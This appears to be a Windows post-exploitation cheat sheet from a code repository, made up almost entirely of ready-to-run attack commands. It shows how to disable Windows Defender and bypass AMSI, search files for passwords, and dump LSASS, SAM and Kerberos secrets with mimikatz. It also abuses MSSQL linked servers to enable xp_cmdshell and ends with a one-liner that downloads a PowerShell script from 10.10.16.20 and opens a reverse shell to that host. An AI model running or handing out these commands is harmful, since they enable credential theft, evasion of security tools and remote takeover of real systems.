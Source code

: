 ## Disable Antivirus  
### With Admin privileges  
Add a folder to the list of paths for which Windows Defender scheduled and real-time scanning is disabled:  
`PS C:\> Add-MpPreference –ExclusionPath “C:\Temp\User"`
  
Disable real-time protection:  
`PS C:\> Set-MpPreference –DisableRealtimeMonitoring $True`  

Some AMSI (Antimalware scan interface) bypass techniques:  
- `PS C:\> powershell.exe –version 2` (Downgrade to PowerShell 2.0 (.NET Framework 3.5 is required)  
- Crash the AMSI process by running payloads available « amsi.fail » (https://amsi.fail).  
  
## Search passwords  
### Enumerate local secrets by searching for keywords in files  
```
findstr /s /i /m "password" "C:\path\to\search\directory\*.*"
```
/s (findstr) or -Recurse (Get-ChildItem) option ensures that the search is performed in all subdirectories.  
/i (findstr) option or -CaseSensitive (Select-String) option performs a case-insensitive search.  
/m (findstr) option is used to print only the filenames with the matching content.  
`Get-ChildItem -Path C:\* -Include *.xml,*.ini,*.txt,*.config,*.ps1,*.bat, *.properties,*.cfg,*.vbs,*.wsf,*.cmd -ErrorAction SilentlyContinue -Recurse | Select-String "adm","<domain>","pass","pwd","mdp","cred","config","username","SecureString" -List | Select-Object -ExpandProperty Path`  
  
    
### With Admin privileges - Extract passwords  
`mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"`  
  
**Explanation :**  
`privilege::debug` & `token::elevate` Elevate Privileges to extract the credentials  
`sekurlsa::logonpasswords` Extracts creds from lsass (memory)  
`lsadump::lsa /inject` Extracts from lsass (service)  
`lsadump::sam` Extracts creds from SAM  

## Extract Kerberos tickets from memory  
### With Admin privileges 
   
`mimikatz.exe "privilege::debug" "token::elevate" "kerberos::list /export" "exit"`    


## MSSQL Privesc   
### Check if the local MSSQL DB is linked to another instance:  
`Get-SqlServerLinkCrawl -Verbose`    
    
**Manual trusted link queery** (From https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql)   
  
`Get-SQLQuery -Instance "DBWEB,1433" -Query "select * from openquery(""m4sqlz.m4c.loc"", 'select * from information_schema.tables')"`  
  
**Enable xp_cmdshell and check it**  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'SELECT * FROM OPENQUERY("m4sqlz.m4c.loc", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'`  
  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [m4sqlz.m4c.loc]'`  
  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [m4sqlz.m4c.loc]'`    
  
  
If you see the results of @@selectname, it worked  
Then :    
`osql -E -S "DBWEB" -Q "EXECUTE('xp_cmdshell whoami') AT [m4sqlz.m4c.loc];"`   
OR   
`Get-SQLServerLinkCrawl -Instance CYWEBDW -Query "EXEC master..xp_cmdshell 'powershell.exe iex (iwr http://10.10.16.20:8080/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.20 -Port 443'"`    

    
  
